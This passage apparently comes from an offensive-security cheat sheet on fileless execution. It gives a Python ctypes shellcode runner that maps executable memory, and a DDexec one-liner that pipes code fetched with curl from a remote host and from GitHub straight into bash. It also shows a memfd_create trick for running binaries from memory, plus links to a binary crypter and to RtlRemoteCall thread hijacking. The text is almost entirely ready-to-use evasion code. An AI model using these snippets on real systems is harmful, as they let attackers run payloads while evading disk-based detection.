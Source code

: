 ```python
mmap = libc.mmap
mmap.argtypes = [c_void_p, c_size_t, c_int, c_int, c_int, c_size_t]
mmap.restype = c_void_p
page_size = pythonapi.getpagesize()
sc_size = len(sc)

mem_size = page_size * (1 + sc_size / page_size)
cptr = mmap(0, int(mem_size), PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0)

memmove(cptr, sc, sc_size)
sc = CFUNCTYPE(c_void_p, c_void_p)
call_sc = cast(cptr, sc)
call_sc(None)
```
{% endcode %}



### DDexec

- [https://github.com/arget13/DDexec](https://github.com/arget13/DDexec)

{% embed url="https://youtu.be/MaBurwnrI4s" %}

Run binaries from memory without touching the disk:

```
$1 base64 /bin/ls -w0 > ls.b64
$2 curl -sS 10.10.13.37/ls.b64 | bash <(curl -sSL https://github.com/arget13/DDexec/raw/main/ddexec.sh) /bin/NonExistentBinary -la
```

Another trick to do semi-fileless ELF execution with a pre-created process descriptor:

```
$ python3 -c 'import os;os.fork()or(os.setsid(),print(f"/proc/{os.getpid()}/fd/{os.memfd_create(str())}"),os.kill(os.getpid(),19))'
$ cat /usr/bin/date > /proc/1732982/fd/4
$ /proc/1732982/fd/4
```



### Tools

- [https://github.com/hackerschoice/bincrypter](https://github.com/hackerschoice/bincrypter)




## RtlRemoteCall

- [https://www.alex-ionescu.com/rtlremotecall/](https://www.alex-ionescu.com/rtlremotecall/)
- [https://github.com/REDMED-X/OperatorsKit/blob/ff56550a1606e2a2cd9c6295ef42b5f8dc6ed156/KIT/LoadLib/loadlib.c](https://github.com/REDMED-X/OperatorsKit/blob/ff56550a1606e2a2cd9c6295ef42b5f8dc6ed156/KIT/LoadLib/loadlib.c)
- [https://sabotagesec.com/thread-hijacking-iceberg-deep-dive-into-phantom-call-rtlremotecall/](https://sabotagesec.com/thread-hijacking-iceberg-deep-dive-into-phantom-call-rtlremotecall/)
